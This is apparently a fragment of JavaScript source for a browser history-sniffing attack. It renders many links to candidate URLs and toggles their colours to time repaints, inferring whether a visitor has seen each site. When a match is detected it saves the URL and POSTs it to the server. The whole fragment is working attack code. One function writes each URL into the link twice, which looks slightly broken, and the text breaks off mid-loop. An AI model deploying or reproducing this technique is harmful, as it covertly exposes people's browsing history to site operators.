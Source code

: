 ```html
            var stop = true;
            var start;
            var currentUrl = 0;

            function initStats() {
                currentUrl = 0;
                start = NaN;
                counter = 0;
                if (stop) {
                    stop = false;
                    loop();
                }
            }

            function startLeaking() {
                out.style.textShadow = "black 1px 1px 10px";
                write();
                resetLinks();
                initStats();
            }

            function write() {
                var s = '';
                var url = urls[currentUrl];
                for (var i = 0; i < 50; i++) {
                    s += "<a href=" + url;
                    s += url; 
                    s += ">#####</a>"
                }
                out.innerHTML = s;
            }

            function updateLinks() {
                var url = urls[currentUrl];
                for (var i = 0; i < out.children.length; i++) {
                    out.children[i].href = url;
                    out.children[i].style.color = 'red';
                    out.children[i].style.color = '';
                }
            }
            function resetLinks() {
                for (var i = 0; i < out.children.length; i++) {
                    out.children[i].href = 'http://' + Math.random() + '.asd';
                    out.children[i].style.color = 'red';
                    out.children[i].style.color = '';
                }
            }
            function loop(timestamp) {
                threshold = 11.875;
                // threshold = 22;

                if (stop) return;
                if (!start) start = timestamp;
                if (timestamp > start + statisticalTime) {
                    if (currentUrl >= 2) {
                        if(counter<=threshold){
                            window.name = urls[currentUrl];
                            fetch("?",{method:"POST",body:urls[currentUrl]})
                            document.location.reload()
                            throw 1;
                        }
                    }
                    currentUrl++;
```